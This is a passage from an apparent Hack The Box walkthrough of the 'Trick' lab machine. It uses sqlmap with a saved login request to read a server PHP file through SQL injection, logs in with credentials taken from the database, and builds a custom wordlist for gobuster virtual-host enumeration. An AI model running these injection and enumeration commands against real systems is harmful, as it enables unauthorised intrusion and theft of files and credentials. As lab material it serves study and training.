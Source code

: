 ```sh
┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --file-read "/var/www/payroll/index.php" --batch
[*] starting @ 21:58:08 /2022-07-06/
[21:58:09] [INFO] fetching file: '/var/www/payroll/index.php'
3C21444F43545950452068746D6C3E0D0A3C68746D6C206C616E6
73D22656E223E0D0A0D0A3C686561643E0D0A20203C6D65746120
636861727365743D227574662D38223E0D0A20203C6D657461206
<SNIP>
```

Using the credentials we got from the database we can log in to the payroll site:

![trick-recruitment](/assets/images/2022-07-05-21-28-39.png)

## Gobuster

I didn't find anything useful in the recruitment system, so let's create a custom wordlist to look for other sites:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# sed 's/^/preprod-/' /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt > trick-wordlist.txt
```

Here I've just used sed to add **preprod-** in front of every entry in the seclists top 5000 wordlist. Now we can use gobuster to look for vhost:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# gobuster vhost -t 100 -w trick-wordlist.txt -u http://trick.htb 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://trick.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     trick-wordlist.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/05 17:38:59 Starting gobuster in VHOST enumeration mode
```